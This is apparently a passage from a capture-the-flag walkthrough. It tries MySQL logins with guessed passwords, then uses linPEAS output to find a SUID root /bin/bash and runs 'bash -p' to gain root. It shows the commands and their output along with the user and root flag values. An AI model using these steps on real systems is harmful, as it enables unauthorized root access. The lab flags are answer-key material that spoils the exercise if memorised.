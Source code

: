 lets try:
- mysql -D dev --user dev -p development01 --> timeout
- mysql -D dev --user devtest -p devteam01 --> access denied

More output:
```
════════════════════════════════════╣ Interesting Files ╠════════════════════════════════════
[+] SUID - Check easy privesc, exploits and write perms                                                                                                                                                                                      
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                                                                                                                
-rwsr-sr-x 1 root root       540K Dec 22 05:46 /bin/bash                                                                                                                                                                                     
-rws--x--- 1 root messagebus  31K Dec 22 05:48 /usr/libexec/dbus-daemon-launch-helper
-rws--x--- 1 root power       18K Jan 15 15:33 /usr/bin/powerd_setuid_helper
/usr/local/bin/strings: /usr/bin/powerd_setuid_helper: Permission denied
  --- Trying to execute /usr/bin/powerd_setuid_helper with strace in order to look for hijackable libraries...

-rwsr-xr-x 1 root root       563K Feb 11 01:04 /usr/bin/sudo  --->  /sudo$

[+] SGID
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                                                                                                                
-rwsr-sr-x 1 root root 540K Dec 22 05:46 /bin/bash    
```

https://pentestlab.blog/2017/09/25/suid-executables/

https://unix.stackexchange.com/questions/116792/privileged-mode-in-bash

From the bash info page:

    `-p'

          Turn on privileged mode.  In this mode, the `$BASH_ENV' and
          `$ENV' files are not processed, shell functions are not
          inherited from the environment, and the `SHELLOPTS',
          `BASHOPTS', `CDPATH' and `GLOBIGNORE' variables, if they
          appear in the environment, are ignored.  If the shell is
          started with the effective user (group) id not equal to the
          real user (group) id, and the `-p' option is not supplied,
          these actions are taken and the effective user id is set to
          the real user id.  If the `-p' option is supplied at startup,
          the effective user id is not reset.  Turning this option off
          causes the effective user and group ids to be set to the real
          user and group ids.


```
$ bash -p
whoami && id && pwd
root
uid=20155(nginx) gid=20156(nginx) euid=0(root) egid=0(root) groups=0(root),20156(nginx)
/home/nginx
```

```
cat /home/katie/user.txt
e89d27fe195e9114ffa72ba8913a6130
cat /root/root.txt
d44519713b889d5e1f9e536d0c6df2fc
```

